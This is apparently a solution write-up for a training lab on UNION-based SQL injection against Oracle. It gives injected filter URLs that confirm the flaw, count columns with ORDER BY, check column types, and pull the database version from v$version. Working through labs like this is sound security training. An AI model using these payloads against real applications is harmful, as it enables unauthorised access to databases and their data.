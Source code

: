 # SQL injection attack, querying the database type and version on Oracle
# Objective
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.\
\
To solve the lab, display the database version string.

# Solution
`/filter?category=Gifts’` - Application is vulnerable 

## Determining the number of columns
`/filter?category=Gifts' order by 1--` \
`/filter?category=Gifts' order by 2--` \
`/filter?category=Gifts' order by 3--` -> Error -> Number of columns = 2

## Determining the types of columns
`/filter?category=Gifts' union select 'a','a' from dual--` - Both columns are string type

## Retrieving version of Oracle database
```
/filter?category=' union select banner,null from v$version--
```